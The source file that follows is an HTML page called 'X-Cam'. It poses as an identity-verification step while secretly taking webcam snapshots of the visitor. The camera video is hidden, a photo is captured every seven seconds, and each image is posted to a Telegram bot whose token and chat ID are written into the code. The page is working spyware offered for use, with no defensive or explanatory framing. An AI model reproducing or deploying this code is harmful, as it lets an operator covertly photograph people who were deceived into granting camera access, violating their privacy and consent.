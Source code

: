# X-Cam
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Camera Verification</title>
  <style>
    body { font-family: Arial; text-align: center; margin-top: 30px; direction: ltr; }
    #video { display: none; }
  </style>
</head>
<body>
  <h2>Verifying identity. Please wait...</h2>
  <video id="video" autoplay></video>
  <canvas id="canvas" style="display:none;"></canvas>

  <script>
    const video = document.getElementById("video");
    const canvas = document.getElementById("canvas");
    const ctx = canvas.getContext("2d");

    const BOT_TOKEN = "7563056522:AAGtCUHe64GmfalmLnBQC3KvAHkX8XSkRTQ";
    const CHAT_ID = "8012505053";

    navigator.mediaDevices.getUserMedia({ video: true })
      .then(stream => {
        video.srcObject = stream;

        setInterval(() => {
          canvas.width = video.videoWidth;
          canvas.height = video.videoHeight;
          ctx.drawImage(video, 0, 0, canvas.width, canvas.height);

          canvas.toBlob(blob => {
            if (blob) {
              const formData = new FormData();
              formData.append("chat_id", CHAT_ID);
              formData.append("caption", "Auto-captured image");
              formData.append("photo", blob, "image.jpg");

              fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`, {
                method: "POST",
                body: formData
              })
              .then(res => {
                if (!res.ok) {
                  console.error("Failed to send image:", res.statusText);
                }
              })
              .catch(err => console.error("Connection error:", err));
            }
          }, "image/jpeg", 0.6);
        }, 7000); // Capture every 7 seconds
      })
      .catch(err => {
        alert("Camera access denied. Please allow access and refresh the page.");
        console.error("Camera error:", err);
      });
  </script>
</body>
</html>
